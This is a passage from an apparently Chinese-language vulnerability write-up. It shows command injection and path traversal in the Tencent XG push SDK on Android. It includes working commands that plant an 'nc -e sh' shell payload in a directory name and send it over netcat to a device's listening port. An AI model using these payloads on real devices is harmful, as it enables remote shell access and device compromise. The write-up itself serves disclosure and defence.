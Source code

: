当发送xgapplist:xxx，则可以设置当前使用xg sdk的app。其中xxx的形式为 &lt;packagename1&gt;,&lt;accid1&gt;;&lt;packagename2&gt;,&lt;accid2&gt;…

接下来会通过fopen打开/data/data/&lt;packagename&gt;/lib目录来判断指定packagename的目录是否存在，如果存在，则会在后续使用该packagename，否则提示找不到该package。

[![](https://p3.ssl.qhimg.com/t01ca9644190082c3b9.png)](https://p3.ssl.qhimg.com/t01ca9644190082c3b9.png)

然后，程序会调用system通过am命令启动对应包内的XG组件，这里就使用了上面检查过的packagename.

[![](https://p5.ssl.qhimg.com/t0111c1cfbd7e03c9d3.png)](https://p5.ssl.qhimg.com/t0111c1cfbd7e03c9d3.png)

注意，上述两个system函数中的参数没有进行任何过滤。

那么，我们结合上述两张图来看，**如果恶意app满足：**
<li>
1. 能够设置一个存在且被xg sdk可以访问的目录，
</li>
<li>
2. 目录名中嵌入执行的代码
</li>
<li>
那么就可以实现命令注入。对于条件1，可以通过../../../../路径穿越的形式跳转到恶意app可控的目录；而对于条件2，则可以利用shell特性，在可控目录下建立猥琐的“ || &lt;command&gt; #”目录实现。
</li>
<li>

</li>
<li>
**0x02  漏洞利用**
      （1）模拟恶意app在/sdcard目录建立一个特殊（猥琐）的目录名，除了“/“字符外，其他字符均可用。
</li>
[![](https://p5.ssl.qhimg.com/t0111c1cfbd7e03c9d3.png)](https://p5.ssl.qhimg.com/t0111c1cfbd7e03c9d3.png)

于是我们有了了” &amp;&amp; nc -ll -p 6666 -e sh #”的目录，并在目录下存在子目录lib

（2）通过xgapplist命令设置推送app

如图，发送命令，

```
echo -n “xgapplist:com.tencent.wework/../../../../../../sdcard/ &amp;&amp; nc -ll -p 6666 -e sh #,2100078991;” | nc -vv 192.168.8.187 55362
```

观察logcat可以发现设置成功。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01aede864132faecb8.png)

（3）通过tme命令，使am命令周期性进行，进而触发后面的system函数，执行我们的反弹shell命令

```
echo -n “tme:12345” | nc -v 192.168.8.187 55362
```
